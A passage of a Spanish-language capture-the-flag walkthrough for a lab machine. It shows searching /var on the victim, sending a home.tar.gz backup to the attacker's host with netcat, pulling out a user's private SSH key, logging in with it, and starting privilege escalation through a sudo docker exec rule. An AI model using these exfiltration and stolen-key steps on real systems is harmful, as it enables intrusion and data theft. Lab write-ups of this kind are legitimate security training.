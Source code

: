 Tampoco vemos algo aqui.

```bash
cd /var
find \-type f 2>/dev/null | grep -v -E "lib|cache"
```

Aqui vemos algo que podria ser interesante.

```bash
cd /var/backups
ls -l
```

Vemos un `home.tar.gz` y tenemos derecho de visualizar

#### Nos enviamos el home.tar.gz {-}

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > home.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc 10.10.14.8 443 < home.tar.gz
    ```

1. Hacemos un md5sum para ver la integridad de la data
1. Analizamos el fichero

    ```bash
    7z l home.tar.gz
    ```

Ya podemos ver que es un comprimido del directorio home del usuario Noah con authorized_key y una id_rsa del proprio usuario

### Conexion por ssh {-}

```bash
chmod 600 id_rsa
ssh -i id_rsa noah@10.10.10.230
```

Ya estamos a dentro y podemos ver la flag

## Escalada de Privilegios {-}

### Rootear la maquina {-}

```bash
id
sudo -l
#Output

(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

